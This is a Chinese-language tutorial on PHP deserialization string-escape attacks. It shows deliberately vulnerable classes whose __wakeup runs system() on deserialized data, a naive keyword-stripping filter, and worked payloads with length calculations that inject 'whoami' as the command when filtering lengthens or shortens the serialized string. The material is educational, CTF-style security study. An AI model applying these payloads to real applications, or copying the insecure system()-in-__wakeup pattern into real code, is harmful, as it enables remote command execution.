


# php反序列化字符串逃逸

## 标准的反序列化

php反序列化是什么就不过多介绍了，这里就简单展示一下：

```php
<?php

class Example{
    public $var1="Unseralize success";
    public function __wakeup(){
        echo $this->var1;
    }
}

$A=new Example();

$str = serialize($A);

print_r($str);
echo "\n";
unserialize($str);
```

上面代码的输出是：

```bash
O:7:"Example":1:{s:4:"var1";s:18:"Unseralize success";}
Unseralize success```
```

### 序列化字符串的特点

一个序列化字符串必然是以```";}```结束，也就是说，如果我们能够控制序列化后的字符串中出现```";}```，就能提前结束序列化。

既然这样那我们是不是可以通过改变类中的变量的方式来控制序列化字符串呢，答案是不可以，比如下面的代码：

```php
<?php

class Example{
    public $var1='";}';
    public function __wakeup(){
        echo $this->var1;
    }
}

$A=new Example();

$str = serialize($A);

print_r($str);
echo "\n";
unserialize($str);
```

这是输出：

```
O:7:"Example":1:{s:4:"var1";s:3:"";}";}
";}
```

可见并没有出错，因为在于```s:3:"";}"```，将```var1```的变量长度控制死了在3位，所以并不能完成逃逸。

### 逃逸缺陷

从前面的演示可以看出反序列化逃逸的原因主要在于序列字符串的长度上面，换句话说，如果序列字符串的长度可控，我们就可以通过这一点来利用达到逃逸。

假设存在这样的waf函数用于过滤可能出现的危险字符：

```php
function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

$strings_to_be_unseralized = 'O:7:"Example":1:{s:4:"var1";s:3:"";}";}";}';
$strings_to_be_unseralized = waf($strings_to_be_unseralized);
```

开发可能以为过滤了就安全了，但实际上恰恰相反，下面就讲讲为什么在序列化后修改序列化字符串会造成危险。

## 序列化字符变多

假设存在如下代码，waf函数将一个b替换为两个b：

```php
<?php

function waf($strings){
    return str_replace('b', 'bb', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}


$A=new Example();
$A->username='blue';

$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

在我们只能控制$username变量的情况下，我们如何利用waf函数的特性来控制$cmd变量为我们想要的任意值呢？

假如我们使$username的值为```blue```，那么实际经过waf过滤后的序列化字符串应该就是```O:7:"Example":2:{s:8:"username";s:4:"bblue";s:3:"cmd";s:4:"date";}```
，不难看出$username的值为```bblue```，但是前面的长度却是4，如果直接参与反序列化操作肯定是报错的，现在我们尝试来利用这一特性改变$cmd变量的值。

传入$username的值为```";s:3:"cmd";s:6:"whoami";}```，那么waf过滤后的序列化字符串应该就是

```
O:7:"Example":2:{s:8:"username";s:30:"bblue";s:3:"cmd";s:6:"whoami";}";s:3:"cmd";s:4:"date";}
```

不难发现，如果想要控制$cmd的值为whoami，我们就需要使$username的长度等于前面s的值，现在$username的长度为5，很明显不等于28，但是前面的特性会将一个b变为两个b，反过来也就是说，$username变量长度每+2，s的值+1。

所以$username变量长度的增长速度快于s的增长速度，这样的话，我们只需要求出还需要多少个b才能使其相等即可。

另2X为还需要的b的值：

$$
30+X=5+2X
\\
X=25
$$

不难解得X为25。

这样我们理想的序列化字符串应该就是
```
O:7:"Example":2:{s:8:"username";s:55:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbblue";s:3:"cmd";s:6:"whoami";}";s:3:"cmd";s:4:"date";}
```

反推出传入的$username的值为：```bbbbbbbbbbbbbbbbbbbbbbbbbblue";s:3:"cmd";s:6:"whoami";}```

如此便能达到逃逸的效果：



## 序列化字符变少

假设存在如下代码，waf函数将所有危险的函数替换为空：

```
<?php

function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}

$A=new Example();

$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

现在我们尝试利用字符串减少的特性来控制变量$cmd。需要注意的是，在这种情况下，$cmd变量需要可控（听上去有点多此一举，既然$cmd可控为什么我们不直接去修改他的值呢......）

传入$username='php'，$cmd='";s:0:"";s:3:"cmd";s:6:"whoami";}'，时，修改后的序列化字符串为：

```
O:7:"Example":2:{s:8:"username";s:3:"";s:3:"cmd";s:33:"";s:0:"";s:3:"cmd";s:6:"whoami";}";}
```
我们需要让s吞噬整个```";s:3:"cmd";s:33:"```，所以可以列一个方程式来解决：

另X为php字符的个数，Y为flag字符的个数：

$$
25-3=3X+4Y
\\
\left\{
\begin{aligned}
x & = 2 \\
y & = 4 \\
\end{aligned}
\right.
$$

也就是说还需要2个php，4个flag：

```php
<?php

function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}

$A=new Example();
$A->username='flagflagflagflagphpphpphp';
$A->cmd='";s:0:"";s:3:"cmd";s:6:"whoami";}';
$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

输出结果如下，成功逃逸：


